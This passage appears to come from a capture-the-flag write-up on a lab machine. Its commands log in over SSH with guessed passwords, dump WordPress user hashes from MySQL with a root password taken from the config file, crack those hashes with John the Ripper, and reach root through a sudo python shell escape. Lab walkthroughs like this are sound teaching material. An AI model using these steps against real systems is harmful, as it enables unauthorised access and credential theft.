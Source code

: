 OR   Alternatively cat service.html | grep flag* still had the flag1 retrieved 

Logged in as Michael, flag2.txt was retrieved using directory traversal as in flag1 above 

**COMMAND:**
ssh Michael @192.168.1.110
password: Michael
cd /      
cd /var/www/
ls -ltr
cat flag2.txt

Capturing Flag 3: Accessing MySQL database.
With credentials found on wordpress.config, access to mysql database was successful
 
Username: root
Password: R@v3nSecurity
Commands:
Mysql -u root -p
Password: R@v3nSecurity
Show databases;
Use wordpress;
Show tables;
Select * from wp_posts;
Fag3 hash value: afc01ab56b50591e7dccf93122770cd2   and Flag4 hash value: 715dea6c055b9fe3337544932f2941ce   were all revealed

FURTHER EXPLOIT FOR FLAG4
Inside MYSQL database the content of a table (wp_users) was displayed to get the password for the users particularly steven. 
Commands:
Mysql -u root -p
Password: R@v3nSecurity
Show databases;
Use wordpress;
Show tables;
Select * from wp_users

The password hashes for Michael and steven were copied to a text file and brute forced using john the ripper.
COMMAN:
John steven.txt             ………..where john is the command and steven.txt the file

Password revealed as:  pink84
With this password, access to the target with steven as the user was successful

ssh steven @192.168.1.110
password: pink84
checked for privilege escalation

sudo -l  
   
used python script to escalate to the root 
sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
cd /root
ls
 